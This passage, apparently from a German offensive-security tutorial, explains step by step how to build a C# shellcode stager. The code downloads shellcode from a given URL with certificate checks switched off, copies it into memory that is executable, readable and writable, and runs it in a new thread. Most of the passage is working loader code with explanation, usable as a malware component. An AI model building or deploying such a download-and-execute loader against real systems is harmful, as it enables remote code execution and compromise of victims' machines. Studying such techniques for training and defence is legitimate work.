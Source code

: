 ```CS
//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

Der bedeutendste Teil unseres Codes wird in der Funktion Stager() liegen, wo die Logik des Stagers implementiert wird. Die Stager-Funktion wird eine URL erhalten, von der der auszuführende Shellcode heruntergeladen wird.

Der erste Teil der `Stager()` Funktion wird ein neues `WebClient()` Objekt erstellen, das es uns ermöglicht, den Shellcode über Webanfragen herunterzuladen. Bevor die eigentliche Anfrage gestellt wird, überschreiben wir die `ServerCertificateValidationCallback` Methode, die für die Validierung von SSL-Zertifikaten bei HTTPS-Anfragen zuständig ist, damit der WebClient keine Beschwerden über selbstsignierte oder ungültige Zertifikate macht, die wir auf dem Webserver verwenden, der die Payloads hostet. Danach rufen wir die `DownloadData()` Methode auf, um den Shellcode von der angegebenen URL herunterzuladen und ihn in der Variablen `shellcode` zu speichern:
```CS
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```

Sobald unser Shellcode heruntergeladen und in der Variable `shellcode` verfügbar ist, müssen wir ihn in ausführbaren Speicher kopieren, bevor wir ihn tatsächlich ausführen können. Wir verwenden `VirtualAlloc()`, um einen Speicherblock vom Betriebssystem anzufordern. Beachten Sie, dass wir genug Speicher für `shellcode.Length` Bytes anfordern und das Flag `PAGE_EXECUTE_READWRITE` setzen, um den zugewiesenen Speicher ausführbar, lesbar und beschreibbar zu machen. Sobald unser ausführbarer Speicherblock reserviert und der Variablen `codeAddr` zugewiesen ist, verwenden wir `Marshal.Copy()`, um den Inhalt der Variable `shellcode` in die Variable `codeAddr` zu kopieren.
```CS
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```

Nun, da wir eine Kopie des Shellcodes in einem Block ausführbaren Speichers allokiert haben, verwenden wir die Funktion `CreateThread()`, um einen neuen Thread im aktuellen Prozess zu erzeugen, der unseren Shellcode ausführt. Der dritte Parameter, der an CreateThread übergeben wird, zeigt auf `codeAddr`, wo unser Shellcode gespeichert ist. Dadurch wird beim Start des Threads der Inhalt unseres Shellcodes ausgeführt, als wäre es eine normale Funktion. Der fünfte Parameter ist auf 0 gesetzt, was bedeutet, dass der Thread sofort starten wird.

Sobald der Thread erstellt wurde, rufen wir die Funktion `WaitForSingleObject()` auf, um unserem aktuellen Programm mitzuteilen, dass es auf die Beendigung der Thread-Ausführung warten muss, bevor es weitermacht. Dies verhindert, dass unser Programm geschlossen wird, bevor der Shellcode-Thread eine Chance hat, ausgeführt zu werden:
```CS
IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```
